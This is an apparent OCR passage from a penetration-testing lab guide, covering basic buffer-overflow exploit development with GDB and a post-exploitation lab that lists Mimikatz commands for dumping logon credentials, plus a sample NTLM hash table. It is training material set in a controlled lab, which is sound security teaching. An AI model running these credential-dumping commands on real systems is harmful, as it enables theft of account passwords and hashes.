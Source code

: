 **5.3 Scenario Execution (Controlled Environment Only)**
- Develop realistic but ethical scenario
- Test with willing volunteers only
- Document success/failure rates

### Lab 6: Exploit Development Basics

**Tools Required:** GDB, radare2

**Objectives:**
- Analyze binary vulnerabilities
- Develop proof-of-concept exploits

**Step-by-Step Process:**

**6.1 Binary Analysis**
```bash
# Static analysis
strings vulnerable_binary
file vulnerable_binary

# Dynamic analysis with GDB
gdb vulnerable_binary
run AAAAAAAAAAAAAAAA
```

**6.2 Exploit Development**
1. Identify buffer overflow location
2. Calculate offset to return address
3. Develop payload with shellcode
4. Test exploit in controlled environment

### Lab 7: Post-Exploitation and Exfiltration

**Tools Required:** Mimikatz, Custom exfiltration tools

**Objectives:**
- Extract credentials from compromised systems
- Demonstrate data exfiltration techniques

**Step-by-Step Process:**

**7.1 Credential Extraction**
```bash
# Using Mimikatz (Windows lab only)
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

**Documentation:**
```
| Hash Type | Username      | Hash Value       |
|-----------|---------------|------------------|
| NTLM      | Administrator | aad3b435b514...  |
```
